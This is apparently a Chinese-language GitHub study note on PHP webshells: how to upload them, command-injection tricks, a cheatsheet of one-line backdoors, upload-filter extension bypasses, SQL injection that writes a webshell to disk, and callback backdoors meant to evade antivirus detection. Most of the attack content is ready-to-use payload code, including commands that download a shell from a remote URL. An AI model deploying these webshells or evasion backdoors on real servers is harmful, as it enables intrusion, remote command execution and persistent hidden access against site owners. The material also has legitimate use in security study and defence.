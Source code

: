 # Webshell
一種以網頁形式存在的命令執行環境，也稱作**網頁後門**。  
黑客可以通過瀏覽自己放的後門，得到一個shell以操控伺服器。  
1. 大馬  
程式較龐大，調用system func()，通常會以加密隱藏代碼。   
2. 小馬  
程式小巧   
3. 一句話木馬  
一段小代碼，可做插入，變化多樣。  
*  [How works](#how-works)  
*  [Command injection](#command-injection)  
*  [Webshell cheatsheet](#webshell-cheatsheet)  
*  [Bypass blacklist extension](#bypass-blacklist-extension)  
*  [SQL inj to webshell](#sql-inj-to-webshell)  
*  [Don't delete my webshell](#dont-delete-my-webshell)
*  [Reference](#reference)

# How works
我們可以通過網站自帶的文件上傳功能將webshell送上去，而文件裡的代碼由server解析進一步執行!  
1. 尋找上傳點   
* echo 一個shell到文件中執行  
* 下載 shell  
2. 繞過上傳限制 進行上傳  
* 直接上傳  
* 繞過  

# Command injection
```php
// match one character
cat fla?
cat ./???sword

// match multiple character
cat f*

// bypass space 
cat${IFS}flag
```
   
# Webshell cheatsheet
```php
// 回顯
<?php system('ls'); ?>
<?php system(ls); ?>
<?php system($_GET['cmd']); ?>
<?php system($_GET[1]); ?>

<?php passthru('ls'); ?>


// 不回顯
<?php shell_exec('echo 1>1');        // 1=echo 1>1
<?php shell_exec('>1');            // 1=>1

<?php shell_exec('wget -O 1.php url');    // download shell
<?php shell_exec('curl -o 1.php url');    // 預設下載index.html

<?=`$_GET[1]`;                   // <?= is used to shorten the <?php echo `blah`;
// ``就像exec不會直接顯示結果，需要echo
echo `$_GET[1]`;&1=ls


// 文件包含漏洞
include$_GET[1];             // 中間空格可以省略

// 思路：寫入base64編碼過的shell檔，再進行解碼  <環境www>
$_GET[1](file,chracter,8);&1=file_put_contents .....
include$_GET[0];&0=php://filter/read=convert.base64-decode/resource=file


// PHP代碼執行
<?php eval('echo `ls`;');       // eval裡的PHP代碼必須加;
<?php assert('phpinfo();');    // assert裡的PHP代碼可以不加;
<?php preg_replace("/\[(.*)]/e",'\\1',$_GET['str']);  // ？str=[phpinfo()]


// 思路：延伸數組＋回調函數 php 5.4以後的特性
// 回調後門 多可以避免木馬查殺  
// 參考下方reference
?1[]=blah&1[]=system();&2=assert     
param=usort(...$_GET);
```
長度限制思路：  
* 用檔名拼湊成命令,再一次ls進一個shell script [detail](https://shinmao.github.io/2018/02/20/A-tiny-shell/)

[system v.s. exec v.s. shell_exec](https://blog.longwin.com.tw/2013/06/php-system-exec-shell_exec-diff-2013/)  
**exec()和shell_exec()我們都會搭個echo**  
[這是一篇很屌的php lib exp分析](https://stackoverflow.com/questions/3115559/exploitable-php-functions)

# Bypass blacklist extension
文件解析漏洞  
除了```.php```，通過conf模塊的regular expression：  
* ```.php3```  
* ```.php4```  
* ```.php5```  
* ```.php7```  
* ```.pht```  
* ```.phtml```  
以上副檔名也都會被解析成```.php```  
* ```.php.xxx```  
在古老的版本中也存在**多後綴名**的繞過方式  
原理：apache2特性由右至左解析，遇到不認識的無法解析就像左跳！  
* ```.php/.``` 
值得注意的是 這招無法覆蓋舊檔  
原理：php源碼中可以看到用遞歸的方式將檔名結尾的```/.```都去掉！  
[源碼審計](https://github.com/shinmao/Web-Security-Learning/blob/master/Webshell/apache2_php5.conf)

# SQL inj to webshell
MYSQL:  
```
select into outfile(dumpfile)  // mysql write to document
```  
E.G.  
```  
union select 1,2,"<? system($_GET['fuck']) ?>" into outfile "://path"
```

# Dont delete my webshell
筆記一些好用的木馬免殺  
```php
<?php
$e = $_REQUEST['e'];
register_shutdown_function($e, $_REQUEST['pass']);
// 結束時callback
// ?e=assert&pass=phpinfo();

<?php
$e = $_REQUEST['e'];
declare(ticks=1);
register_tick_function ($e, $_REQUEST['pass']);
```

### Reference  
* [千变万化的WebShell-Seebug](https://paper.seebug.org/36/)
* [七字短shell](http://wonderkun.cc/index.html/?p=524%EF%BC%88%E9%80%9A%E8%BF%87)  
* [PHP MANUAL Assert](http://php.net/manual/en/function.assert.php)  
* [PHP MANUAL Usort](http://php.net/manual/en/function.usort.php)  
* [PHP MANUAL 延長數組](http://php.net/manual/zh/migration56.new-features.php)
* [P師傅木馬免殺](https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html)  
* [stackoverflow Exploitable PHP functions](https://stackoverflow.com/questions/3115559/exploitable-php-functions)
* [Ali0thNotes PHP代码审计归纳](https://github.com/Martin2877/Ali0thNotes/blob/master/Code%20Audit/PHP%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%E5%BD%92%E7%BA%B3.md)